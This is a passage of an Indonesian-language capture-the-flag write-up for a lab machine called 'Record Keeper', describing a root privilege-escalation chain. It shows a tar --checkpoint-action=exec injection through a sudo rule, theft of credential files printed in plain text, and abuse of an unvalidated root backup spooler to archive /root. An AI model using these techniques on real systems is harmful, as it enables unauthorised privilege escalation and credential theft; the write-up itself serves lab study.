


# Record Keeper (Root) — Analisis

[← Overview](16-record-keeper-root.md) · [Index](index.md)

## 2.4 Permission `/etc/nexus` dan spool

Notes mencatat:

```text
/etc/nexus/ops.creds   root:ops 0640
/etc/nexus/spool.token root:ops 0640
```

`node` tidak bisa membacanya, tetapi `ops` bisa. Jadi setelah tar injection
memberi eksekusi `ops`, kedua file itu dapat dicuri. Kredensial yang bocor:

```text
ops:0ps#Sp00l2026
spool token: SPOOL-7f3c9a1e4b2d
```

Yang lebih penting: group `ops` bisa menulis job ke `/srv/record-spool`.
Spooler root memproses `*.job` setiap 2 detik dan menjalankan:

```bash
tar -czf /var/backups/records/<id>.tar.gz -C <target> .
```

`target` tidak divalidasi. Jika `target=/root`, spooler mengarsipkan seluruh
`/root` sebagai root. Hasilnya adalah file tar yang bisa dibaca `ops`
(atau disalin oleh script `x`), lalu diekstrak untuk mengambil `root.txt`.

## 2.5 Rantai lengkap

```text
node
  -> sudo -n -u ops /usr/local/bin/record-archive /tmp/tarinj
  -> tar membaca --checkpoint-action=exec=sh x
  -> sh x sebagai ops
  -> baca /etc/nexus/{ops.creds,spool.token}
  -> tulis /srv/record-spool/rootarc.job (target=/root)
  -> root spooler membuat /var/backups/records/rootarc.tar.gz
  -> ops copy arsip ke /tmp/opsexfil
  -> tar -xOzf ... ./root.txt
  -> root flag
```

### Evidence langkah ini



*Terminal evidence — `02-enum-ops.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03-tar-checkpoint.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-enum-ops.txt`](assets/record-keeper-root/02-enum-ops.txt)
- [`03-tar-checkpoint.txt`](assets/record-keeper-root/03-tar-checkpoint.txt)
